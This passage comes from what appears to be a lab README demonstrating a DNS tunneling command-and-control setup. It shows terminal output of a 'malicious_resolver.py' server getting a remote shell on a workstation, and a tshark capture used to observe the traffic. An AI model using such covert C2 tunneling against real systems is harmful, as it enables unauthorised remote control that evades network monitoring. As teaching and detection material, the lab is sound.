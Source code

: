 Detected CTRL+C. Exiting now.
root@dns-server:/usr/src/app#</pre>
        At this point, we are returned to our shell on the DNS server.
        </td>
        <td width="50%">
        On the DNS requesting side we can also terminate it from running by doing <code>CTRL+C</code>.
<pre>root@workstation-1:/usr/src/app# python dns_lookup.py 
^C
Detected CTRL+C. Exiting now.
root@workstation-1:/usr/src/app#</pre>
        At this point, we are returned to our shell on the workstation.
        </td>
    </tr>
</table>

## Packet Capture
One way to confirm that we are communicating successfully between the "compromised" host and the C2 server is by looking at packets that are transferred across the network. To do this, we can use the [`tshark`](https://tshark.dev) tool to capture packets. A shell script called `capture.sh` will be available on the client. This shell script will run the typical `dns_lookup.py` Python file from the previous example, while also simulatenously starting `tshark` capture on the client. The [`capture.sh`](/dns-tunneling/client/capture.sh) file can be inspected using this hyperlink if you are curious.

### Starting Capture
<table border='1'>
    <tr>
        <th><h3>Server (running <a href="/dns-tunneling/server/malicious_resolver.py"><code>malcious_resolver.py</code></a>)</h3></th>
        <th><h3>Client (running <a href="/dns-tunneling/client/capture.sh"><code>capture.sh</code></a>)</h3></th>
    </tr>
    <tr>
        <td width="50%">
            Start the malicious resolver.
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py</pre>
        </td>
        <td width="50%">
            Start capture.
            <pre>root@workstation-1:/usr/src/app# ./capture.sh 
Running as user "root" and group "root". This could be dangerous.
Capturing on 'eth0'
 ** (tshark:19) 22:26:16.975217 [Main MESSAGE] -- Capture started.
 ** (tshark:19) 22:26:16.975309 [Main MESSAGE] -- File: "captures/capture.pcapng"</pre>
        </td>
    </tr>
    <tr>
        <td width="50%">
            Just like before, we have the terminal of our workstation and can start to issue commands. (ex. <code>ls</code>).
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt</pre>
        </td>
        <td width="50%">
        From here, we should notice that packets have been collected on the client. At the bottom of the <code>tshark</code> capture output we can see a count for the number of packets collected. <b>This number is bolded in the snippet.</b>